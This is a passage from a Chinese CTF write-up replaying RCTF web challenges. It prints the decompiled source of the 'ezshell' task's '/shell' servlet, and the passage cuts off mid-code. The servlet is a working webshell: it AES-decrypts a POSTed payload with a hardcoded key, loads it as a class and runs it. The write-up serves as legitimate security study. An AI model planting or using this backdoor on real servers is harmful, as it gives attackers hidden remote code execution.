 # 前言

RCTF当时没打，感觉还是错过了学习的机会。今天下午看firebasky师傅的github的时候偶然看到了RCTF的题目，所以打算找个时间把这个比赛的Web复现一下。



# ezshell

Misc里面的一道Web，get访问`/shell`之后可以得到源码反编译之后审计一下：

```java
//
// Source code recreated from a .class file by IntelliJ IDEA
// (powered by FernFlower decompiler)
//

import java.io.BufferedInputStream;
import java.io.BufferedOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.lang.reflect.Method;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import javax.servlet.http.HttpSession;
import sun.misc.BASE64Decoder;

@WebServlet({"/shell"})
public class shellbx extends HttpServlet {
    public shellbx() {
    }

    protected void service(HttpServletRequest request, HttpServletResponse response) {
        try {
            String k;
            if (request.getMethod().equals("POST")) {
                response.getWriter().write("post");
                k = "e45e329feb5d925b";
                HttpSession session = request.getSession();
                session.putValue("u", k);
                Cipher c = Cipher.getInstance("AES");
                c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
                byte[] evilClassBytes = (new BASE64Decoder()).decodeBuffer(request.getReader().readLine());

                class U extends ClassLoader {
                    U(ClassLoader c) {
                        super(c);
                    }

                    public Class g(byte[] b) {
                        return super.defineClass(b, 0, b.length);
                    }
                }

                Class evilClass = (new U(this.getClass().getClassLoader())).g(c.doFinal(evilClassBytes));
                Object a = evilClass.newInstance();
                Method b = evilClass.getMethod("e", Object.class, Object.class);
                b.invoke(a, request, response);
```